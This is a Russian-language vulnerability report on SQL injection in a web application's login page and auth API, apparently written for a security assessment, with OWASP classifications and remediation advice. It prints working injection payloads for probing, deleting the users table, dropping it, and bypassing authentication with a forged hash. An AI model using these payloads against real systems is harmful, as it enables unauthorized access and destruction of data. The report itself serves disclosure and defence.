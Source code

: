 # Исследуемая страница: 
 `http://192.168.253.128:8888/login`  
## Описание уязвимости  
| Имя найденной уязвимости| Описание и последствия       
|-------------------------|------------
| УЯ1 (SQL injection)     | На странице авторизации отсутствует валидация и санитизация входных данных. Уязвимость позволяет получить доступ к сайту, изменять данные в таблицах и удалять содержимое БД.   Классификация по OWASP `A03:2021-Injection` (`https://owasp.org/Top10/`)
| УЯ2 (Security Misconfiguration)     | Сервис авторизации в ответе возвращает чувствительную информацию, которая позволяет определить наличие инъекции. Классификация по OWASP `A05:2021-Security Misconfiguration` (`https://owasp.org/Top10/`)  
## Технические детали обнаружения и воспроизведения
При тестировании будет использована УЗ:  
Логин - `SuperUser`  
Пароль - `12345`  

Уязвимость расположена по адресу `http://192.168.253.128:8888/login` и так же в связанном сервисе `http://192.168.253.128:8888/auth-api/auth/login`.  
`192.168.253.128` – динамический ip-адрес в поставляемом образе дистрибутива продукта.  
В ходе тестирования будут использованы два адреса `192.168.37.128` и `192.168.253.128` - это обусловлено переустановной ВМ и получением гового адреса. 

Проверяем УЗ запросом в сервис авторизации:  
![](pic/auth-req.png)  
Получаем корректный ответ и токен авторизации.  
```
{"code":"Ok","token":"eyJhbGciOiJSUzUxMiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiIzMWIwNGRkNC1mYTlkLTRmZWMtOWJlMy1hMzdkMzRlNGRiMDIiLCJuYmYiOjE2NzcwNTA4NzQsImV4cCI6MTY3NzA1MDg4NCwiaWF0IjoxNjc3MDUwODc0fQ.aic8QAqET9AyjfWneaNC4m_SCCkAOXGsg6vNnX1pFEG5Yh1SLoZahhmd7t68BL14fuhrDUJ20gjfdHBmeiTIrkKjQQQm5wVtk1EW_3STB2dVAwImI5zgQVqFwijDz3R0L27m8EcSrvu83ROYpD3VE6p3YQfFW1R853GaLKOylrB0QDGSfNXIn9ttN_4yOuIaplVwhIq3ckMus_0VcKy36Ec3RrC1BmSWwtjPJpTelW07UMr69zWp0aJdv5Ym4If4XqOixrn8XtTObJyRUm0J31Jhe8b4iAPtEL8hyl0HbnCvmIMfbJ--5-9_BcdlERVUK1-JM4_LTGW-oxMIV9NFXQ","info":{"userId":"31b04dd4-fa9d-4fec-9be3-a37d34e4db02","login":"SuperUser","groupId":"929ea950-16e8-4365-9f09-e3160d220c46"}}
```

Уязвимость можно обнаружить, протестировав ответы на запросы авторизации.  
Тестирование наличия инъекции:  
```
{"login":"SuperUser' UNION ALL select NULL -- ","password":"123456"}
```

![](pic/sql-inject-1.png)

Ответ - `UNION query must have the same number of columns` говорит нам о том, что сервер не валидировал входные данные и выполнил код из поля `login`  

## Демонстрация возможностей эксплуатации
Не имея исходного кода приложения будет немного сложнее найти эксплойт для авторизации на сайте, но т.к. отсутствует ограничение на количество запросов и существует возможность внедрить модифицирующие БД запросы, найденная уязвимость считается критической.  

## Демонстрация нарушения целостности и доступности информации

### Удаление данных из таблицы пользователей:  

Запрос:  
```
{"login":"SuperUser'; DELETE FROM users; -- ","password":"123456"}
```
![](pic/sql-inject-2.png)

При следующем запросе авторизации с валидной УЗ получаем ошибку авторизации.
![](pic/auth-req-fail.png)  
Это значит, что пользователей в системе нет.

### Удаление таблицы пользователей:

Запрос:  
```
{"login":"SuperUser'; DROP TABLE users; -- ","password":"123456"}
```
![](pic/sql-inject-3.png)

При следующем запросе авторизации с валидной УЗ получаем ошибку:  

`{"code":"Failed","message":"42P01: relation \"users\" does not exist\n\nPOSITION: 39"}`  

![](pic/auth-req-fail-1.png)  
Это значит, что таблицы `users` в системе нет.

### Демонстрация авторизации на сайте
Имея исходный код приложения, можно провести анализ алгоритмов авторизации пользователя, цепочки вызовов сервисов и составить эксплоит.
```
{
  "login": "test' UNION ALL select u.id, u.login, 'I8wdY4rXLwlIanUiTGoZJcfrCsYhBHYdvGoSKJSqkd0=|100000|EWe/1LWwFABKbXRw3Pj2a+QxlrSi8SaNkXHR2WOX6oA=' from users as u --",
  "password": "test"
}
```

Пример использования экплоита на сайте и сервисе авторизации:
![](pic/sql-inject-exploit-1.png)  
![](pic/sql-inject-exploit-web-1.png)

## Выводы и рекомендации по устранению

### Рекомендации по устранению:
1. Добавить валидацию и санитизацию входных данных
2. Использовать экранирование параметров sql-запросов, использовать ORM вместо сырых запросов, использовать подготовленные запросы SQL (https://www.postgresql.org/docs/current/sql-prepare.html )
3. Контролировать сообщения об ошибках.
Возвращать в ответе клиенту только обработанные исключения.  

## Используемое программное обеспечение

### При тестировании использовались: 

1. OWASP ZAP 2.12;
2. Windows 10;
3. Firefox web browser.
